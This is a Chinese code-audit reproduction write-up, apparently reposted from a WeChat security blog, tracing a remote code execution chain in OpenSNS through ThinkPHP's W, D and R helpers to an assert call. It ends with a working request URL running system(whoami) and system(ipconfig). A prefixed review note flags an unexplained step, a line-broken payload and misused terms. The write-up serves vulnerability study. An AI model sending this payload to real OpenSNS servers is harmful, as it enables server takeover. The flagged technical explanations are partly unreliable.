## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Weibo shareBox and Common Schedule model exposed; oldPHP assert strings/native calls; auth未说明

- **结论使用边界（1）**：作者明确_validationFieldItem如何可达未理解，应保留分析不确定性而非完整证明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：与306同载荷含\[6\]\[\]未带id、Model/model大小写混用；一处payload在runSchedule/function词中换行损坏。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：D实例化模型不等于调用方法，R远程调用是框架内部调度非网络RPC，术语需校正。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（4）**：影响版本只是下载包名，无发行版本/哈希；系统工具年份不是产品版本；推广相关文章可清理。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 代码审计 -  opensns 代码审计复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mMRkMHP7DKDqJvW4Vtj_4Q)

前言
==

**申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，切勿用于其它用途！  
**

**本文来自 N1c****E 师傅的投稿，在此表示由衷的感谢。**  

作者寄语：由于本周也是在补天公众号看到了 (moonv) 这位师傅的代码审计文章 [https://mp.weixin.qq.com/s/5_HxHEFrCxOCagGOQPOCDw](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247490365&idx=1&sn=469a6346f5af4d8e1e22f21145f1a809&scene=21#wechat_redirect)  

想着复现下无奈只有前部分的 poc 而已，剩下的只能自己补上了 ，可能会存在点理解误差。  

（师傅们轻点喷，本人新手文章，耗时一天）

正文
==

**审计工具：**

PhpStudy（2016 版本）、Phpstorm（2020.3.2 版本）

**审计步骤：**



由于是 thinkphp 框架写的，是（应用 / 控制器 / 方法名）进行访问的，

访问这控制器是 ?s=Weibo/Share/shareBox&query=

往下走就是到 17 行②处，这里将 query 解码的值传到③sharabox.html 页面



```
然后query的值就赋到'param'的参数上面调用Weibo/Share/fetchShare方法。

```

```
而{:W('Weibo/Share/fetchShare',array('param'=>$parse_array))}

```

```
的W方法在ThinkPHP/Common/functions.php的1174行。这里可以参考补天师傅发的文。

```





```
R(方法是远程调用控制器的操作方法 URL 参数格式 [资源://][模块/]控制器/操作

```

```
{:W(‘Weibo（模块、调用地址）/Share（方法）/fetchShare（操作）’,array(‘param’=>$parse_array))}

```

然后我们继续往回看，也就是 sharebox.html 远程调用 Weibo/Share/fetchShare 方法这里。



```
query的值就赋到'param'的参数上面调用Weibo/Share/fetchShare方法。

```



```
而且D方法只会寻找模块（model）类

```

```
比如你的参数是query=app=Common%26Model=Schedule%26method=runSchedule%26id

```

```
就会搜索Common/Model/ScheduleModel的类

```

```
由于前面的assginFetch方法传入D方法的时候带着‘Weibo/Share’参数

```

```
所以这里只会搜索weibo模块类Weibo/Model/ShareModel

```



```
而fetchShare方法里又将值传给assginFetch方法又又传给了getinfo方法。继续往下跟进

```

上面是调用了 D 方法也就是模块类 Weibo/Model/ShareModel



```
这里的getinfo方法会将传过来的参数进行判断，如果app、Model、method

```

```
参数都不为空的话就进入D进行实例化（实例化：个人感觉是调用方法的意思）如：query=app=应用名（如：Common、Weibo、Admin）%26Model=模块名%26method=方法名，这里moonv师傅已经给出了前部分的

```

poc：query=app=Common%26Model=Schedule%26method=runSchedule%26id



这里的调用 D 方法又成了执行 Common/Model/ScheduleModel/runSchedule 方法

  


```
这里是利用了moonv师傅找出的runSchedule方法然后继续调用D方法进行实例化模块。

```

```
而且这里的参数是需要三个参数，status、method、args，这里有点小绕脑。

```

```
而method是需要‘->’进行分割的，根据前部分的poc再加上现在的参数提示可以组成：

```

```
这里会将method下标的值带入D方法来实例化该模块(Model)类，然后将②带入①的模块类中。

```





```
继续往下的话就到了_validationFieldItem方法，这里我也不是很清楚怎么进来的，应该的通过Schedulemodel方法进行执行_validationFieldItem吧。

```

```
（PS：有懂的师傅能否讲解一下）

```



1、要 val 下标 4 的值是 function

2、要 val 下标 6 的值是数组

3、args 会和 data 下标是 val 下标 0 的值

4、要 val 下标 1 的值是 assert

```
师傅们可以百度参考下call_user_func_array代码执行。

```

```
解释第3点：如果val[0]=cmd ,那么data就是data[cmd]

```

```
这下可以构造出poc：

```

```
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runS

chedule%26id[status]=1%26id[method]=Schedule->_validationFieldItem%26id[4]=functi

on%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(whoami)

```



**影响版本：**

目前版本版本：Uploads_Download_2020-05-14_5ebca066a3fef

**实现步骤：**

http://127.0.0.1/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ipconfig)



**如果对你有帮助的话  
那就长按二维码，关注我们吧！**  


****  [经验分享 | 渗透笔记之 Bypass WAF](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486210&idx=1&sn=5c0f6409e51c3c0cfb6bde43f2406409&chksm=c07fb0f6f70839e0e29f4ea9c8655d4ce7690c2a147aeeb74f2827aece58e3746f3f7c4ee562&scene=21#wechat_redirect)

  [什么是 HTTP 和 HTTPS](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=3&sn=0a975b99a0351a95eef41d37813f7e5d&chksm=c07fb7e8f7083efe8054f864b5b25541fa3bf19ab311700f29254d03e45a4357069ee07c8802&scene=21#wechat_redirect)  

  [实战 |  BYPASS 安全狗 - 我也很 “异或”](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=1&sn=fbd4ca8ed69ba6cb3adbc6ac8561d825&chksm=c07fb7e8f7083efef437eb3d685cc5bd6ac489629c613b5f2ce9ced8a7f8fcd335b6f91821a8&scene=21#wechat_redirect)

右下角求赞求好看，喵~

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
